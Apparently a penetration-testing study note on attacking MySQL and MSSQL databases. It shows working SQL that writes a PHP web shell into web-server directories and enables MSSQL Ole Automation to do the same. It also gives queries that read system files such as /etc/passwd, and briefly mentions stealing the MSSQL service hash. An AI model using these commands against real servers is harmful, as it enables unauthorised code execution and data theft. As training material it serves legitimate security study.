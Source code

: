 ```mysql
- If we have the appropriate privileges, we can attempt to **write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in ==the webserver directory**.== 
- Then **==we can browse to the location where the file is and execute our commands.==**

- MySQL - Write Local File:
	- `SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';`

- In `MySQL`, a **global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations**, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. 
- These **==operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege==**.
	- ![[Pasted image 20250710075527.png]]

- MySQL - Secure File Privileges:
	- `show variables like "secure_file_priv";`
	- ![[Pasted image 20250710075606.png]]
	  
- To **write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option)**, which requires admin privileges, and then execute some stored procedures to create the file.
- MSSQL - Enable Ole Automation Procedures:
	- `sp_configure 'show advanced options', 1`
	- `GO`
	- `sp_configure 'Ole Automation Procedures', 1`
	- `GO`
	- `RECONFIGURE`
	- `GO`

- MSSQL - Create a File:
	```MYSQL
	DECLARE @OLE INT
	DECLARE @FileID INT
	EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
	EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
	EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
	EXECUTE sp_OADestroy @FileID
	EXECUTE sp_OADestroy @OLE
	GO
	```

# Read Local Files
---
- By default, **`MSSQL` allows file read on any file in the operating system to which the account has read access**. We can use the following SQL query:
	- `SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`
	- `GO`

- By default a **MySQL installation does NOT allow arbitrary file read,** but if the correct settings are in place and **with the appropriate privileges, we can read files using the following methods:**
	- `select LOAD_FILE("/etc/passwd");`


# ==Capture MSSQL Service Hash==
---
[[Attacking SMB]]
- In the `Attacking SMB` section, we discussed that we could create a fake SMB server to steal a hash and abuse some default implementation within a Windows operating system.
```